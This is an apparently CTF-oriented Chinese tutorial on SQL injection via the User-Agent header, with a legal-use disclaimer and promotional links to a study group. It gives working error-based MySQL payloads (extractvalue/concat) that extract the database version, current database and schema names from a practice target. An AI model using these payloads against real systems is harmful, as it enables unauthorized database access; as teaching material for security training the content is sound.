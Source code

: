 # sql注入之user-agent注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、什么是user-agent

user-agent中文名称是用户代理，他的主要目的是来让服务器端知道一些客户的终端信息。比如:操作系统版本、浏览器及版本，CPU类型等等。然后根据这些内容来返回不同的内容。

举一个简单的例子,同一个网站用手机访问和电脑返回界面是不一样。这里就是user-agen头起的作用。

![](img/1.png)

## 三、user-agent 注入

user-agent注入同cookie注入类似，注入的前提是服务器段讲客户的user-agent信息存入数据库中。我们看一下我们靶场赛题的源码。

![](img/2.png)

在上图，我们可以看到，讲user-agent存入了数据库中。

## 四、实战链接

>https://t.zsxq.com/qbMvFYf

## 五、注入实战

1.本次课程我们依旧采用上节课中的报错注入。

exp如下:

>'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1

2.查询数据库版本

![](img/3.png)

3.查询当前全部的数据库名称

>User-Agent: 'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1

![](img/4.png)

4.查询当前全部的数据库名称

>User-Agent: 'and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1 ),0x7e)) and '1'='1

![](img/5.png)

改变limit函数的值，即可查询全部的值。

5.剩余内容内容的查询请大家自行动手尝试。

## 六、赛题地址：

>http://39.98.88.18/challenges#sql%E6%B3%A8%E5%85%A5%E4%B9%8Buser-agent%E6%B3%A8%E5%85%A5

## 七、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img//0.jpg)
